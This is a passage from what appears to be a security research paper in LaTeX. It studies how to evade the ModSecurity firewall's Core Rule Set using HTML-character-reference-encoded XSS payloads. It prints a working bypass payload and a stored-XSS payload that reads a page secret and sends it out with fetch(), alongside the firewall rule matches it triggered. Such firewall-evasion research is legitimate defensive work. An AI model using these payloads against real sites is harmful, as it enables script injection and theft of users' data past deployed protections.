 \begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
<a href=jav^\&\#x61^;script:alert('a')>ClickMeFor$</a>
\end{lstlisting}

successfully bypassed two of the three rules that caused the firewall to block the request.

On escaping the left parenthesis: \verb|(| in the javascript function \verb|alert()|, which was part of the matched data that caused rule with id \verb|941390| to match (see Listing~\ref{lst:storedxssinjblocked}), the payload becomes:

\begin{lstlisting}[style=basicStyle, language=Python, caption=HTML character reference bypass, label={lst:htmlcharacterreferencebypass}, escapeinside=\^\^]
<a href=jav^\&\#x61;script:alert\&\#x28;^'a')>ClickMeFor$</a>
\end{lstlisting}

and successfully bypasses the ModSecurity firewall using CRS4.1.


\subsubsection{HTML Character References + JavaScript normal character escape}
\label{sec:htmlencjsesc}
The following payload could be used by an attacker intending to employ stored XSS to exfiltrate secrets \cite{swigger/storedxss}.
It was blocked by the ModSecurity firewall based on 4 rule triggers:
\begin{lstlisting}[style=ruleStyle, language=XML, caption=stored xss payload blocked, label={lst:storedxssblocked}]
<payload><a href=javascript:var secret = document.getElementsByName('name')[0].innerHTML;var data = {body:secret,method:'POST'};fetch('http://localhost:3001/api/ping?secret=something',data)>ClickMeFor$</a></payload>

<message>"Possible Server Side Request Forgery (SSRF) Attack: Cloud provider metadata URL in Parameter"</message>
<file>"/rules/REQUEST-934-APPLICATION-ATTACK-GENERIC.conf"</file>
<fileDetails>[line "88"] [id "934110"]<fileDetails>
<MatchedData>"http://localhost"</MatchedData>

<message>"NoScript XSS InjectionChecker: Attribute Injection"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "225"] [id "941170"]<fileDetails>
<MatchedData>"javascript:[...]"</MatchedData>

<message>"Node-Validator Deny List Keywords"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "252"] [id "941180"]<fileDetails>
<MatchedData>".innerhtml"</MatchedData>

<message>"IE XSS Filters - Attack Detected"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "323"] [id "941210"]<fileDetails>
<MatchedData>"javascript:v"</MatchedData>
\end{lstlisting}

